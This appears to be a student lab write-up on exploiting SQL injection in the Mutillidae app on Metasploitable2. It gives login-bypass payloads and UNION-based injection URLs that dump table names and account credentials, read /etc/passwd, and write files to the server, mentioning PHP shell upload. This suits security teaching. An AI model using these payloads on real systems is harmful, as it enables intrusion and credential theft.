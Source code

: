 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![325657525-5d072558-8cfd-437f-839b-f491e2351bfc](https://github.com/pradeepasri26/sqlinjection/assets/131433142/91d38cf4-7261-4878-9c71-1724992006ed)
Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![325657622-28300288-17b2-4d70-b1d6-3ee0a018feac](https://github.com/pradeepasri26/sqlinjection/assets/131433142/baea06ec-f598-4e58-8971-9075a635be44)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![325657717-262a0baa-afa6-41d8-a0da-47b7cc4c5064](https://github.com/pradeepasri26/sqlinjection/assets/131433142/7eb6f9e6-bf60-4bcd-880c-b0ee52169c99)
Click on the menu Login/Register and register for an account
![325657806-cccb4d70-5d32-49a9-b7a2-c6607c283c59](https://github.com/pradeepasri26/sqlinjection/assets/131433142/5e50537d-a76a-4c01-abce-7b748fc8f6ca)
Click on the link “Please register here”
![325657884-46eba855-7aa9-4d47-9850-30a245a2a76d](https://github.com/pradeepasri26/sqlinjection/assets/131433142/4c275f89-7aed-4a8d-a982-f06197f2ba5d)
Click on “Create Account” to display the following page
![325657969-cb7680e8-8069-4289-88dd-48c982251980](https://github.com/pradeepasri26/sqlinjection/assets/131433142/090badfa-881b-4c42-b4e5-4e0c037aedd1)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:
($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![325658073-de7691c2-6b5c-446e-8c60-f93887b9fcc1](https://github.com/pradeepasri26/sqlinjection/assets/131433142/e9bd9257-5df2-4d1b-9448-d29e0c6a413c)
Click “Login”. The logged in page will show as below:
![325658149-5166ecc3-20f0-4ad6-83d5-ec9406b88479](https://github.com/pradeepasri26/sqlinjection/assets/131433142/a0b9be05-0d47-4e5f-a85e-171803756883)
Bypassing login field
The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”
Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![325658297-a93a6bdb-b7ab-4a94-ba98-dc5b0d0e2ee6](https://github.com/pradeepasri26/sqlinjection/assets/131433142/a4b597c5-733a-4a79-be07-08db50834432)
Click the login button and you will see it enter into the administrator page.
![325658372-b7b5d131-fcc9-4084-8173-4cb7fe583f0b](https://github.com/pradeepasri26/sqlinjection/assets/131433142/c53ed745-89e2-4ea2-bc4f-b99bcff1a7cf)

## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info” After logging out, Now choose the menu as shown below

![325659156-c0bbbd4b-b1d1-4f88-b68b-c49962f7c5c6](https://github.com/pradeepasri26/sqlinjection/assets/131433142/ed692090-a94d-4649-91f7-832557d6c24a)
![325659228-4a23cbda-e95d-401b-863b-17356523aa32](https://github.com/pradeepasri26/sqlinjection/assets/131433142/f4a9d297-0723-48d3-85ef-29ed77f38824)
![325659315-3659e291-8c8d-42ef-8b97-7d013eba1725](https://github.com/pradeepasri26/sqlinjection/assets/131433142/69e12e90-e470-46e2-b5f7-0023c4ad590d)
![325659403-832ae9e4-aa1f-4bc2-80d8-0279af80c82c](https://github.com/pradeepasri26/sqlinjection/assets/131433142/b6ccf61d-4fa8-4b31-b0b7-8305c7599ef7)
![325659478-37e5a6fa-51cf-40c7-b33e-28b6d7ccb109](https://github.com/pradeepasri26/sqlinjection/assets/131433142/01523eee-2a66-4776-8cb2-366f1d77fafb)
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![325659617-08512259-59b7-487b-9e1d-e6bc0a37dbae](https://github.com/pradeepasri26/sqlinjection/assets/131433142/cd807a3d-4a16-47a0-9bc0-95578dad990c)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.
The browser url of this info page need to be modified with the url as below: http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![325659859-7e932a84-99b5-4b27-a7e4-0bb732ca8290](https://github.com/pradeepasri26/sqlinjection/assets/131433142/af01eef3-148b-4a93-94e7-94b815bd7340)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![325659955-4c68e9ec-cb59-44dc-8a1f-3e56b3af0041](https://github.com/pradeepasri26/sqlinjection/assets/131433142/92c6eaae-156f-4d7b-adf8-268c47e5d09f)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![325660091-daadc619-ff42-4c80-b4f3-846d4f8c1ced](https://github.com/pradeepasri26/sqlinjection/assets/131433142/5e28b185-ba4f-4ca6-8d3e-c5eafa1105a7)
As it is having 5 columns the query worked fine and it provides the correct result
![325660277-66a57a6f-0bf7-4bfd-bb4a-96a6aae3dc7a](https://github.com/pradeepasri26/sqlinjection/assets/131433142/1c131d98-1b5f-4221-9e19-c567aab00d8d)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![325660562-8d42416e-2ba9-4fdf-a24f-b1c4f75a7231](https://github.com/pradeepasri26/sqlinjection/assets/131433142/d6df498b-cd3d-4b30-b7f4-5eae6f23467b)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![325660664-64cccd61-4c32-44d5-b146-133df4cefbd9](https://github.com/pradeepasri26/sqlinjection/assets/131433142/23e4c2ee-c204-4658-9c78-2c7b082584be)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![325660765-8d2cf032-acc3-43f8-925d-f32ed0bf113e](https://github.com/pradeepasri26/sqlinjection/assets/131433142/43360278-c4d0-4c0a-ad5f-4d57108381bc)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.
Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![325660845-bda602fd-6721-4d3c-8a06-1997773608d3](https://github.com/pradeepasri26/sqlinjection/assets/131433142/70faccc5-468e-4ea6-8124-fda9ceace43a)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords
When the attacker knows table names, he needs to discover what the column names are to extract data.
In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”
Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![325660962-7e2d45fc-92cf-4973-a51a-4ad7b6132d07](https://github.com/pradeepasri26/sqlinjection/assets/131433142/6decfa12-727f-4450-b3dd-1f379b8c7b3b)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![325661053-5dfa03df-fb62-420e-94c4-218e55944dcc](https://github.com/pradeepasri26/sqlinjection/assets/131433142/8413565a-6e8d-4682-a66f-71d7215adf58)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![325661146-a196e92c-39a6-45d9-9f5e-aad62c02d897](https://github.com/pradeepasri26/sqlinjection/assets/131433142/876c9aed-a000-4bf0-afe4-20b9ef109227)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).
http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![325661369-ce52fb71-a979-4e73-93fc-64c9a2678cd9](https://github.com/pradeepasri26/sqlinjection/assets/131433142/f6ac4e0c-3bd2-4331-9c17-ed2df2c37732)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
